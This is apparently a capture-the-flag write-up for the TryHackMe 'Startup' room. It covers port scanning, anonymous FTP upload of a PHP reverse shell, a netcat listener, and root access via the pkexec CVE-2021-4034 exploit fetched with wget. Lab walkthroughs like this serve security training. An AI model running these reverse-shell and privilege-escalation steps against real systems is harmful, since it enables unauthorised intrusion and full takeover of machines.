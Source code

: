 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/startup/","tags":["CTF","write-up"]}
---
```


![Pasted image 20240926192837.png|300](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240926192837.png)
Abuse traditional vulnerabilities via untraditional means.
**We are Spice Hut,** a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

---
# Active reconnaisance
## Enum ports and services
Running a general scan
```shell
sudo nmap 10.10.100.226 -sS -n -p- --min-rate 5000 -vvv -Pn --open
```

```c
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

---
# Vuln analisis
Running a focused scan
```shell
sudo nmap 10.10.100.226 -sCV -p 21,22,80
```

## Port 22
```c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
```
From launchpad probabbly Ubuntu Xenial Xerus 16.04
![Pasted image 20240927085755.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927085755.png)

## Port 21
```c
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.6.2.59
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
```
### Download the files
Connecting, set the name `ftp` or `anonymous` and the password empty.
```shell
ftp IP
ftp
```
Now we see the files.
![Pasted image 20240927215100.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927215100.png)

To download them.
```shell
get filename.txt
```
## Port 80
```c
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
### Fuzzing
```shell
wfuzz -c -t 10 --hc=404,403 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://startup.thm/files/FUZZ
```
After fuzz we foudn only the `files ` subdirectory
![Pasted image 20240927152857.png|300](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927152857.png)
And the ftp folder it's empty.

---
# Exploitation
## Port 21 write access
Test if we can write into the ftp folder.
We can't write into the main folder but we can do it into `ftp` folder.
![Pasted image 20240927153044.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927153044.png)
## Port 80
We create an reveseshell using https://www.revshells.com/ PHP PentestMonkey
And put that file.

Set the listener on the attacker machine
```shell
rlwrap nc -lnvp 4747
```
And go to the file in the browser. http://startup.thm/files/ftp/rev_shell_1.php
And we have the shell.
![Pasted image 20240927153415.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927153415.png)
Get a better shell
```python
python -c  'import pty;pty;spawn("/bin/bash")'
```

> [!check] What is the secret spicy soup recipe?
![Pasted image 20240927155826.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927155826.png)

---
# Privilege Escalation
Check the [[Operative System/Linux/Permisos/SUID\|SUID]] files.
![Pasted image 20240927171405.png|600](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927171405.png)
## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



> [!cite] NIST-CVE-2021-4034
> A local privilege escalation vulnerability was found on polkit's **pkexec** utility. The pkexec application is a **setuid** tool designed to allow unprivileged users to **run commands as privileged users** according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

We have `pkexec`with SUID the bit enabled.
The exploit https://github.com/Almorabea/pkexec-exploit
```shell
wget https://raw.githubusercontent.com/Almorabea/pkexec-exploit/refs/heads/main/CVE-2021-4034.py
```
Or the code [[CVE-2021-4034-exploit\|CVE-2021-4034-exploit]]

And transfer to the victim machine

<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



## Transfer files
On the folder that contain the file to send **on the source machine.** E.g. `file.txt`
```python
python -m http.server 4545
```

On the destination machine
```shell
wget http://IP_SOURCE_MACHINE:4545/file.txt
```

</div></div>


Run the exploit
```shell
python3 CVE-2021-4034.py
```


</div></div>

We have the root shell
![Pasted image 20240927161322.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927161322.png)

> [!check] user.txt
> ![Pasted image 20240927171747.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927171747.png)


> [!check] root.txt
> ![Pasted image 20240927171845.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927171845.png)



---